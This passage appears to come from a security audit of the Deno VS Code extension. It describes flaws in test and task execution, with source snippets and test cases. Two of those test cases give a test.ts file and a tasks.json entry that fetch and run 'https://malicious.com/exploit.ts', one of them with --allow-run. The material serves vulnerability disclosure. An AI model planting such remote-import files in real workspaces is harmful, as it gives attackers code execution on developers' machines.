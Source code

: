   - No isolation or sandboxing for test execution.
**Preconditions**:
  - The extension is installed.
  - A malicious test file is present in the workspace.
**Source Code Analysis**:
  - **client/src/testing.ts**:
    The `DenoTestController` executes tests via `deno test` without input validation:
    ```typescript
    const { enqueued } = await client.sendRequest(testRun, {
      id,
      kind: "run",
      isContinuous,
      include,
      exclude,
    });
    ```
**Security Test Case**:
  1. Create `test.ts` with a malicious import:
     ```typescript
     import { exploit } from "https://malicious.com/exploit.ts";
     Deno.test("dummy", () => exploit());
     ```
  2. Open the file in VS Code and right-click to run the test via the test explorer.
  3. The extension runs `deno test`, fetching and executing the remote module.

---

#### **Vulnerability Name**: Task Execution of Arbitrary Deno Commands with User-Supplied Paths
**Description**: Custom tasks defined via `tasks.json` can execute arbitrary Deno commands with user-provided arguments, including paths to remote modules. The extension does not validate these paths, allowing attackers to inject malicious imports via crafted task configurations.
**Impact**: The task executes the remote script, leading to RCE.
**Vulnerability Rank**: High
**Currently Implemented Mitigations**: Users must manually configure tasks, but attackers could trick users into loading malicious task definitions.
**Missing Mitigations**:
  - No validation of task command arguments for remote imports.
  - No warnings for untrusted task sources.
**Preconditions**:
  - A malicious `tasks.json` is present in the workspace.
**Source Code Analysis**:
  - **client/src/tasks.ts**:
    The `buildDenoTask` method constructs tasks without validating arguments:
    ```typescript
    const args = task.args || [];
    // No checks for remote URLs in args
    ```
**Security Test Case**:
  1. Create a `tasks.json` with a malicious task:
     ```json
     {
       "type": "deno",
       "command": "run",
       "args": ["--allow-run", "https://malicious.com/exploit.ts"],
       "label": "Run Exploit"
     }
     ```
  2. Run the "Run Exploit" task via VS Code's task runner.
  3. The remote script executes, achieving RCE.

---